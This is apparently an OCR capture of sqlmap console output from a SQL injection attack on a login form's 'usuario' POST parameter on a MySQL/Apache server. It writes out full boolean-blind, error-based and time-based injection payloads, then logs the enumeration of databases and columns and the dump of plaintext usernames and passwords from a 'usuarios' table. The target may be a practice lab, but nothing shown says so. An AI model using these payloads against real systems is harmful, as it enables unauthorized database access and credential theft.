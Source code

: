 ```
[11:43:37] [INFO] resuming back-end DBMS 'mysql'
[11:43:37] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: usuario (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: usuario=admin' OR NOT 8838=8838#&contrase%C3%B1a=admin

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: usuario=admin' AND GTID_SUBSET(CONCAT(0x7170716b71,(SELECT (ELT(2407=2407,1))),0x7176787171),2407)-- QPsJ&contrase%C3%B1a=admin

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: usuario=admin' AND (SELECT 1600 FROM (SELECT(SLEEP(5)))RZVn)-- bLjg&contrase%C3%B1a=admin
---
[11:43:37] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL >= 5.6
[11:43:37] [INFO] fetching database names
[11:43:37] [INFO] starting 5 threads
[11:43:37] [INFO] resumed: 'mysql'
[11:43:37] [INFO] resumed: 'information_schema'
[11:43:37] [INFO] resumed: 'users'
[11:43:37] [INFO] resumed: 'performance_schema'
[11:43:37] [INFO] resumed: 'sys'
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] users

[11:43:37] [INFO] fetching columns for table 'usuarios' in database 'users'
[11:43:37] [INFO] starting 3 threads
[11:43:37] [INFO] retrieved: 'id'
[11:43:37] [INFO] retrieved: 'username'
[11:43:37] [INFO] retrieved: 'password'
[11:43:37] [INFO] retrieved: 'varchar(50)'
[11:43:37] [INFO] retrieved: 'int unsigned'
[11:43:37] [INFO] retrieved: 'varchar(50)'
[11:43:37] [INFO] fetching entries for table 'usuarios' in database 'users'
[11:43:37] [INFO] starting 3 threads
[11:43:37] [INFO] retrieved: '1'
[11:43:37] [INFO] retrieved: '3'
[11:43:37] [INFO] retrieved: '2'
[11:43:37] [INFO] retrieved: '123321123321'
[11:43:37] [INFO] retrieved: '123456123456'
[11:43:37] [INFO] retrieved: 'MiClaveEsInhackeable'
[11:43:37] [INFO] retrieved: 'lucas'
[11:43:37] [INFO] retrieved: 'santiago'
[11:43:37] [INFO] retrieved: 'joe'
Database: users
Table: usuarios
[3 entries]
+----+----------------------+----------+
| id | password             | username |
+----+----------------------+----------+
| 1  | 123321123321         | lucas    |
```